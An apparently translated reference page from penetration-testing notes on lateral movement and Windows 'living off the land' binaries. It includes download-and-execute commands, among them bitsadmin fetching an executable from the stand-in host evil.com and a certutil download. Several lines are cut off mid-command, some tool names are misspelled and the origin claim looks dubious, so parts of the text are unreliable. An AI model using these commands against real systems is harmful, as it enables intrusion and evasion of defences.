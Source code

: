 Move horizontally
========================================

Common entrances
----------------------------------------
- SMB weak password
- SqlServer weak password

Lolbas
----------------------------------------

Introduction
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS, full name Living Off The Land Binaries and Scripts (and also Libraries), is a concept that was finally proposed by Philip Goh in 2013.

These programs are generally signed by Microsoft or third-party certification agencies, but in addition to completing normal functions, they can also be used for intranet penetration. These programs may be used to: download secure malicious programs, execute malicious code, bypass UAC, bypass program control, etc.

Common Programs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- appsyncvpublishing.exe
- Execute powershell
- bitsadmin.exe
- Download the file ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
- Download the file ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder utoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
- Copy file ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system3
- Code execution ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system3
- cdb.exe
- certutil.exe
- Can install, back up, delete, manage and execute certificates
- Certificate storage related functions
- Download the file ``certutil -urlcache -split -f https://addr/example.exe``
- Note that certutil has cache and needs to be deleted explicitly
- base64 codec ``certutil -encode`` / ``certutil -decode``
- cmd.exe
- cmstp.exe
- control.exe
- `Loading dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`_
- CSC.EXE
- Compile C# payload
- ccript.exe
- Execute scripts
- Extexport.exe
- expand.exe
- Expand one or more compressed files
- Forfiles.exe
- ``forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe``
- mofcomp.exe
- makecab.exe
- msbuild.exe
- Build the application
- mshta.exe
- HTML Application
- msiexec.exe
- Install msi
- Loading dll
- msxsl.exe
- Process XSL programs
- netsh.exe
- Instalutil.exe
- Install/uninstall program components
- IEExec.exe
- .NET Framework included
- powershell.exe
- psexec.exe
- https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
- reg.exe
- Registry Console
- regedit.exe
- Registration table modification
- regsvr32.exe
- Register dynamic link library/ActiveX controls
- rundll32.exe
- Execute internal functions in DLL files
- sc.exe
- View service status management
- schtasks.exe
- Scheduled tasks
- shred
- Repeated writing to files to prevent file recovery
- type.exe
- Use ads to hide files ``type <filepath> <target_file:ads>``
- wmic.exe
- Windows Management Tools
- windbg.exe
- winrm.exe
- wscript.exe
- Script Engine
- waitfor.exe
- Used to synchronize computers in the network, can send or wait for signals on the system.
